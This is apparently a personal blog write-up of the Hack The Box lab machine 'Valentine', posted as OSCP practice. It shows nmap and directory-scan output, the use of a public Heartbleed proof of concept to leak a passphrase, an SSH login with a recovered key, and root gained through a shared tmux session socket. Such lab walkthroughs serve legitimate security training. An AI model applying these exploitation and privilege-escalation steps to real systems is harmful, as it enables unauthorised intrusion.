 

---
title : HTB 1/20 Valentine
published : true
date: 2021-04-10T16:40:05+02:00
author : PS
---
# Quick Note!
A few days ago a friend of mine  gave me a htb pro subs for 30 days :D , so in order to prepare for OSCP  
I will make at least 20 machines till my subs is gone  
I will post writeups for all of those machines on the blog  

### Valentine  

*Nmap*
```bash
>>> sudo nmap -sC -sV 10.10.10.79 | tee namp
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-10 15:40 EEST
Nmap scan report for 10.10.10.79
Host is up (0.083s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 96:4c:51:42:3c:ba:22:49:20:4d:3e:ec:90:cc:fd:0e (DSA)
|   2048 46:bf:1f:cc:92:4f:1d:a0:42:b3:d2:16:a8:58:31:33 (RSA)
|_  256 e6:2b:25:19:cb:7e:54:cb:0a:b9:ac:16:98:c6:7d:a9 (ECDSA)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Not valid before: 2018-02-06T00:45:25
|_Not valid after:  2019-02-06T00:45:25
|_ssl-date: 2021-04-10T12:40:28+00:00; +2s from scanner time.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: 1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.07 seconds
```
Going on the port 80 , we get an interesting result  

![test](1.png)

![test](2.png)
Nothing helpful , so time for lulzbuster  
```bash  

[+] game started

[+] code   size   real size   resp time   url

[*] 403 |  288B |      288B | 0.252547s | http://10.10.10.79/.htaccess
[*] 403 |  288B |      288B | 0.404998s | http://10.10.10.79/.htpasswd
[*] 403 |  283B |      283B | 0.407550s | http://10.10.10.79/.hta
[*] 403 |  287B |      287B | 0.188165s | http://10.10.10.79/cgi-bin/
[*] 200 |  552B |      552B | 0.176609s | http://10.10.10.79/decode
[*] 301 |  308B |      308B | 0.171988s | http://10.10.10.79/dev
[*] 200 |  554B |      554B | 0.158954s | http://10.10.10.79/encode
[*] 200 |   38B |       38B | 0.162534s | http://10.10.10.79/index
[*] 200 |   38B |       38B | 0.163341s | http://10.10.10.79/index.php
[*] 403 |  292B |      292B | 0.161239s | http://10.10.10.79/server-status
[*] 200 |   38B |       38B | 1.146707s | http://10.10.10.79/

[+] game over
```
The indexes return the / page content  

![test](3.png)  

![test](4.png)
![test](5.png)
The notes seem interesting  
![test](6.png)
So after spending some more time , I've reutured to / and it hit me HEARTBLEED!  
<https://github.com/sensepost/heartbleed-poc> -- exploit  
Then after running it a few times,  we get a base64 string  
```bash
  0010: BC 2B 92 A8 48 97 CF BD 39 04 CC 16 0A 85 03 90  .+..H...9.......
  0020: 9F 77 04 33 D4 DE 00 00 66 C0 14 C0 0A C0 22 C0  .w.3....f.....".
  0030: 21 00 39 00 38 00 88 00 87 C0 0F C0 05 00 35 00  !.9.8.........5.
  0040: 84 C0 12 C0 08 C0 1C C0 1B 00 16 00 13 C0 0D C0  ................
  0050: 03 00 0A C0 13 C0 09 C0 1F C0 1E 00 33 00 32 00  ............3.2.
  0060: 9A 00 99 00 45 00 44 C0 0E C0 04 00 2F 00 96 00  ....E.D...../...
  0070: 41 C0 11 C0 07 C0 0C C0 02 00 05 00 04 00 15 00  A...............
  0080: 12 00 09 00 14 00 11 00 08 00 06 00 03 00 FF 01  ................
  0090: 00 00 49 00 0B 00 04 03 00 01 02 00 0A 00 34 00  ..I...........4.
  00a0: 32 00 0E 00 0D 00 19 00 0B 00 0C 00 18 00 09 00  2...............
  00b0: 0A 00 16 00 17 00 08 00 06 00 07 00 14 00 15 00  ................
  00c0: 04 00 05 00 12 00 13 00 01 00 02 00 03 00 0F 00  ................
  00d0: 10 00 11 00 23 00 00 00 0F 00 01 01 30 2E 30 2E  ....#.......0.0.
  00e0: 31 2F 64 65 63 6F 64 65 2E 70 68 70 0D 0A 43 6F  1/decode.php..Co
  00f0: 6E 74 65 6E 74 2D 54 79 70 65 3A 20 61 70 70 6C  ntent-Type: appl
  0100: 69 63 61 74 69 6F 6E 2F 78 2D 77 77 77 2D 66 6F  ication/x-www-fo
  0110: 72 6D 2D 75 72 6C 65 6E 63 6F 64 65 64 0D 0A 43  rm-urlencoded..C
  0120: 6F 6E 74 65 6E 74 2D 4C 65 6E 67 74 68 3A 20 34  ontent-Length: 4
  0130: 32 0D 0A 0D 0A 24 74 65 78 74 3D 61 47 56 68 63  2....$text=aGVhc
  0140: 6E 52 69 62 47 56 6C 5A 47 4A 6C 62 47 6C 6C 64  nRibGVlZGJlbGlld
  0150: 6D 56 30 61 47 56 6F 65 58 42 6C 43 67 3D 3D A0  mV0aGVoeXBlCg==.
  0160: 64 51 7F F5 71 CB 53 FE 93 89 86 E5 2F 11 8B 6B  dQ..q.S...../..k
  0170: 6E C1 31 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C  n.1.............
```
More exactly :  
```bash
aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg== -> heartbleedbelievethehype
```
Now , I've remembered about another interesting find in the /dev folder : hype_key  
![test](7.png)
Decode that and get a ssh key  
![test](8.png)
I guessed that the user the hype since the file is called hype_key soooo  
```bash
ssh -i key.key hype@10.10.10.79 
```
![test](9.png)
![test](10.png)
:)) so the ssh pass is not the same with the user one  
After running some linpeas we find :  
```bash
/.devs/dev_sess
```
so just run tmux  -S /.devs/dev_sess and you are root  
![test](11.png)
